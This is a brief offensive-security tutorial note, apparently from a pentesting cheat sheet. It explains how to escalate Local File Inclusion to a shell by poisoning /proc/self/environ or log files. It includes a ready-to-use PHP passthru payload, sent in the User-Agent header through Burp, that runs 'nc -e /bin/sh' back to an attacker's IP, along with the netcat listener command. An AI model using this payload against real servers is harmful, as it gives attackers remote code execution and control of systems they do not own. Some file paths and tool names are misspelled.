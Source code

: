 ![](static/X6rzbEDd5onbKExPBCYc8kpZnxb.png)

**LOCAL FILE INCLUSION**

- Allows an attacker read ANY file on the same server.
- Access files outside www directory.

**SHELL FROM LOCAL FILE INCLUSION**

- Try to inject code into readable files.
- Ex: /proc/self/environ

  ```
                /var/log/auth.log      //内含登入信息

                /arl/log/apache2/accss.log
  ```

**Using the /proc/self/environ   **

1. You should try acess the /proc/self/environ
2. If you can access the Local File , The inclusion maybe can be used.
3. Use brup proxy.
4. Input The Code You Want To Run ON The Server Side TO the UserAgent Messagebox.

```html
PHP:
    KALI:
        nc -vv -l -p Port//listen the port."nc" means netcat.
    Burp:
        Change The UserAgent to <?passthru("nc -e /bin/sh KaliIPaddress port");?> 
        Forward then 
    Then Kail will get the shell   
    //KaliAddress NOT Means The local area network IPaddress
```
